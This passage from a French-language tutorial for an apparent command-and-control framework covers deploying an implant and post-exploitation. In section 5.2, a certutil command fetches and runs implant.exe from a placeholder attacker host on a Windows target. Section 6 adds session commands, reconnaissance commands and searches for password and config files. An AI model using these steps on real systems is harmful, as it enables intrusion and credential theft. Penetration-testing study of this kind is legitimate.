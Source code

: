 ### 5.2 Exécution sur la machine cible
```bash
# Sur la machine Windows cible
certutil -urlcache -split -f http://[IP_ATTAQUANT]:8080/implant.exe implant.exe
.\implant.exe
```

### 5.3 Vérification des connexions
```bash
# Liste des sessions actives
sessions

# Interaction avec une session
use [SESSION_ID]
```

---

## 6. Techniques de Post-Exploitation

### 6.1 Reconnaissance système
```bash
# Informations système
info

# Liste des processus
ps

# Variables d'environnement
getenv

# Informations réseau
netstat

# Liste des utilisateurs
getuid
whoami
```

### 6.2 Enumération du système
```bash
# Structure des répertoires
ls
pwd

# Recherche de fichiers sensibles
find / -name "*.txt" -type f 2>/dev/null
find / -name "*password*" -type f 2>/dev/null
find / -name "*config*" -type f 2>/dev/null
```
